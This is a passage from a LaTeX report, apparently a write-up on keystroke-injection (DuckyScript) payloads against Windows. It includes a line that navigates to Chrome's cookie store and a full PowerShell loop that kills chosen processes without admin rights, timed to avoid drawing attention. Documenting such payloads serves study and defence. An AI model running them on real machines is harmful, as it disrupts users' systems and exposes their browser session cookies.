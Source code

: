 The same approach can be used for chrome, the difference is in the file path.

\begin{lstlisting}
STRINGLN cd "C:\Users\maaik\AppData\Local\Google\Chrome\User Data\Default\Network\Cookies"
\end{lstlisting}

\subsubsection{Iteratively End Processes}

Finding and ending processes on Windows can be done with powershell and without admin privileges. The payload first defines the black- or whitelist, depending on the mode of the attack, then gets a list of all running processes. Next, it will either end all running processes that are also in the whitelist, or it will end every running process that is not in the blacklist. \\
This is an excerpt of the whitelist mode;

\begin{lstlisting}
STRINGLN $criticalProcessesWhitelist = @( "firefox" , "ROCCAT_Swarm_Monitor", "Notepad" )
DELAY 5
STRINGLN while("true"){
DELAY 5
STRINGLN $runningProcesses = Get-Process | Select-Object -ExpandProperty Name | select -Unique
DELAY 5
STRINGLN foreach ($process in $runningProcesses) {
DELAY 5
STRINGLN if ($criticalProcessesWhitelist -contains $process) {
DELAY 5
STRINGLN Stop-Process -Name $process
DELAY 5
STRINGLN Write-Output "process $process deleted"
DELAY 5
STRINGLN }
DELAY 5
STRINGLN }
DELAY 5
STRINGLN Start-Sleep -Seconds 1.5
DELAY 5
STRINGLN }
\end{lstlisting}

The program features a while loop, which will keep it running continuously. It also includes a sleep to give the operating system time to actually terminate a process, before running Get-Process again thereby avoiding attention drawing error messages. In order for this payload to run, it is essential that the name in the white- or blacklist match exactly what the process name is that is returned by the Get-Process Powershell function. 



\subsubsection{Schedule Processes}

